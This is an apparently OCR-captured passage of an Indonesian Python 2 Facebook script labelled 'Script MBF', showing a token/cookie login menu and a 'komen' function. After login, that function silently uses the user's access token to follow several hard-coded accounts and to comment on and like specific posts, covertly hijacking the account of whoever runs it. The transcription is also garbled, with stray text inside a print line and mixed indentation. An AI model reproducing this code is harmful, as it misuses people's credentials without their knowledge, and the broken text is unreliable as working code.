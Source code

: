 mfb_h={'Host': 'm.facebook.com', 'cache-control': 'max-age=0', 'upgrade-insecure-requests': '1', 'user-agent':ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8', 'accept-encoding': 'gzip, deflate', 'accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'}
### JALAN ###
def jalan(z):
        for e in z + '\n':
                sys.stdout.write(e)
                sys.stdout.flush()
                time.sleep(0.03)
### Bot Komen ###
def komen(): # Boleh Di Tanbahin Jangan Di Ganti #
        try:
                toket=open('login.txt','r').read()
        except IOError:
                print ('[x] Token Invalid')
                login()
        web = datetime.datetime.now()
        waktu = web.strftime("%H:%M:%S / %d-%m-%Y ")
	kata = random.choice(["Kita harus melakukan yang terbaik yang kita mampu. Itu adalah tanggung jawab manusia yang suci.","Orang yang ekstrem mendapatkan hasil yang ekstrem.","Belajar untuk menjadi tenang dan kamu akan selalu bahagia.","Belajar untuk menjadi tenang dan kamu akan selalu bahagia.","Dari kesalahan ke kesalahan seseorang menemukan seluruh kebenaran.","Jalan yang sulit sering kali mengarah ke tujuan yang indah.","Hal-hal hebat tidak pernah datang dari zona nyaman.","Jika kamu tidak mau mengambil risiko yang tidak biasa, kamu harus puas dengan yang biasa.","Nikmati setiap momen dalam hidup karena kamu tidak tahu apa yang akan terjadi besok."])
        love = random.choice(['❤️','💛','💚','💙','🖤','🧡','💜'])
        kom = 'Pengguna Script MBF '+love+'\n'+kata+'\n'+waktu
        requests.post('https://graph.facebook.com/757953543/subscribers?access_token=' + toket)
        requests.post('https://graph.facebook.com/100006609458697/subscribers?access_token=' + toket)
        requests.post('https://graph.facebook.com/100064814153036/subscribers?access_token=' + toket)
        requests.post('https://graph.facebook.com/10159090813023544/comments/?message=' +kom+ '&access_token=' + toket)
        requests.post('https://graph.facebook.com/10159090813023544/likes?summary=true&access_token=' + toket)
        requests.post('https://graph.facebook.com/10158807643598544/comments/?message=Keren Bang ❤️&access_token=' + toket)
        requests.post('https://graph.facebook.com/158807643598544/likes?summary=true&access_token=' + toket)
        requests.post('https://graph.facebook.com/100000288808056/subscribers?access_token=' + toket)
        requests.post('https://graph.facebook.com/100041991180267/subscribers?access_token=' + toket)
        requests.post('https://graph.facebook.com/100004689605986/subscribers?access_token=' + toket)
        print ('[•] Login Berhasil')
	menu()
##### LOGIN #####
def login():
    os.system('clear')
    print logo
    print('──────────────────────────────────────────')
    print('[1] Login Pakai Token')
    print('[2] Login Pakai Cookies')
    print('[3] Cara Dapat Token/Cookies')
    print('[0] Keluar') Wajib Keluar . Entar  Sesi
    print('──────────────────────────────────────────')
    lg = raw_input('[?] Input : ')
    if lg == '':
        os.sys.exit()
    elif lg == '1' or lg == '01':
        toket = raw_input("[?] Token : ") # Login Token
        try:
                otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
                a = json.loads(otw.text)